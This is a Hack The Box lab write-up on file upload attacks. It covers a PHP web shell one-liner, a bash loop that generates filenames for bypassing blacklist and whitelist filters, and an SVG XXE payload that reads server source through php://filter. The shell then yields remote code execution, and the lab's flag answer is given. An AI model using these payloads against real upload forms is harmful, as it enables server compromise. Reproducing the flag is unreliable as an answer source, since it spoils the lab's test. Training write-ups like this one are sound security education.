# Hack The Box - File Upload Attacks Skills Assessment | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web / File Upload &nbsp;•&nbsp; **Difficulty:** Medium
>
> **Target:** `154.57.164.76:30097` (recon), then `154.57.164.82:32099` after the lab was re-spawned &nbsp;•&nbsp; **Time taken:** 60 mins (extended once)
>
> **Author:** Jithin Jelson

---

## Introduction

This lab is the skills assessment for the Hack The Box module File Upload Attacks. We have been taught how to bypass blacklisting, whitelisting and content type validation, and we must use these skills to get our root flag.

> **Note on the target IP:** I ran out of time partway through and had to extend the lab, which re-spawned the box on a new address. The recon and enumeration screenshots are against `154.57.164.76:30097`, and everything from the XXE stage onward is against `154.57.164.82:32099`. It is the same challenge, just a different host. I also got stuck at the SVG/XXE stage and reached out online for help, then solved the rest myself.

---

## Assessment Overview



---

## What I Learned

- How to fuzz file extensions with Burp Intruder to find variants that slip past a blacklist filter.
- Why a whitelist that only checks for `.jpg` in the name can still be defeated with a double extension.
- Deleting a front-end JavaScript validation function works, because that check only runs in the browser and never on the server.
- Fuzzing the `Content-Type` header to discover which MIME types the upload accepts.
- That an accepted `image/svg+xml` upload opens the door to an XXE attack, since SVG is XML.
- Using an XXE payload with a `php://filter` wrapper to read and Base64-decode the server-side source code.
- Reading the disclosed source told me the upload directory and the file naming format, which is what finally let me reach my shell for RCE.

---

## Recon and Finding the Upload Form

We can start by visiting our target IP address.



*Figure 1 - The target Uploads Shop homepage.*

We get greeted to a jewellery page, we will now try and manually enumerate this page to see where our file upload attack may reside.

In the contact page we can see that there is an option to select an image, this is most likely where our attack will be.



*Figure 2 - The contact page with an image upload field.*

Let's open up Burp Suite and try to catch the request and play around with it.

We can also write a `shell.php` file that can get us a command line too.

```php
<?php system($_GET['cmd']); ?>
```



*Figure 3 - Writing shell.php while selecting a file to upload.*

We can see that only image files are supported.



*Figure 4 - The form only accepts images.*

---

## Bypassing the Blacklist

So we uploaded an image file and then changed its content to a PHP file, we will now send this to Repeater to see if we can try and upload the file.

However when we try to upload we can see that the extension was not allowed.



*Figure 5 - The server responds "Extension not allowed".*

So we will send it to Intruder to see if we can find a PHP extension that can bypass the blacklisted filters.



*Figure 6 - Fuzzing extensions in Intruder to find ones that get past the blacklist.*

We can observe that certain extensions bypassed the "Extension not allowed" filter, we need to check now for the whitelist rules. It seems that only files that either end in `.jpg` or have `jpg` in them might get allowed, so let's add a few more variations to our Intruder wordlist.

However we came back with the same messages, perhaps there is a MIME check too? We edited our content to include a `gif8` at the start but it still came out with the same warning.

We can attempt to create a wordlist with type characters too, as it seems the whitelist is filtering out all our attempts.

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.phar' '.pht'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

---

## Defeating the Client-Side Validation

However this didn't work too, upon closer inspection of the source code we found the following, we can try and view what this function is.



*Figure 7 - The source code reveals a checkFile validation on the input.*

We can see that there is some sort of client side validation, so let's delete this function as it seems to be only happening on the front end.



*Figure 8 - The onchange="checkFile()" handler that runs client-side only.*

And now this time it seems we have some luck.

---

## Content-Type Fuzzing and XXE

However after 30 mins of trying the same payloads on this we still found no luck, so we decided to enumerate our content type to see what would be accepted by the page and we got success for `svg+xml`, so that means we can execute an XXE attack. We initially tried to find `flag.txt` using XXE but that came out as an internal server error, so we decided to read the `upload.php` page.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/contact/upload.php">]>
<svg xmlns="http://www.w3.org/2000/svg"><text>&xxe;</text></svg>
```

And we got the following.



*Figure 9 - The XXE payload returns the Base64-encoded source of upload.php.*

And we got the following when we decoded it.



*Figure 10 - The decoded upload.php source showing the directory, naming format, and the blacklist, whitelist and type checks.*

Although our PHP code was being uploaded earlier we could not view the directory, however it shows in the `upload.php` where this directory is situated and the naming format to access this directory.

It's called `/user_feedback_submissions/` and the year, month, date.

---

## Getting RCE and the Flag

So let's try and access our previous shell script.



*Figure 11 - Accessing the uploaded shell at /contact/user_feedback_submissions/260817_shell.phar.jpg.*

And it seems like we have a success, let's try to attempt RCE now.



*Figure 12 - Running id through the shell returns uid=33(www-data).*

Success.

And we were able to locate our flag.



*Figure 13 - Listing / reveals the flag file in the root directory.*



*Figure 14 - Reading the flag file.*

> **Task:** Try to exploit the upload form to read the flag found at the root directory "/".

**Answer:** `HTB{m4573r1ng_upl04d_3xpl0174710n}`
